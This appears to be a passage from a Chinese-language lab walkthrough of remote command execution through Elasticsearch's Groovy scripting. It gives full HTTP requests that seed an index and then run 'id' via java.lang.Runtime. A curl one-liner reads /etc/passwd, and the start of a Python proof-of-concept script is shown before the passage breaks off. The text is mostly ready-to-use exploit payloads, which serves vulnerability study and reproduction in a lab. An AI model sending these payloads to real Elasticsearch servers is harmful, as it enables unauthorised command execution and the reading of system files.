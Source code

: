 由于查询时至少要求es中有一条数据，所以我们发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: 192.168.15.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

![](https://ae01.alicdn.com/kf/HTB1eDNLdQxz61VjSZFt761DSVXag.png)

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: 192.168.15.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

![](https://ae01.alicdn.com/kf/HTB1CEd7eW1s3KVjSZFA760_ZXXar.png)

也可以使用火狐的插件hackbar去发送post数据包实现命令执行

![](https://ae01.alicdn.com/kf/HTB15fN5e8Kw3KVjSZFO761rDVXaV.png)

或者使用curl去发送数据包实现命令执行

```
curl -XPOST http://ip:9200/_search?pretty=true -d '{"size":1,"script_fields": {"test#": {"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang": "groovy"}}}'
```

​		python编写的POC

```
#!/usr/bin/env python
#-*-coding:utf-8-*-
import urllib
import urllib2
import json
import sys
def execute(url,command):
parameters = {
                "size":1,
                "script_fields":
                {"iswin":
                        {
```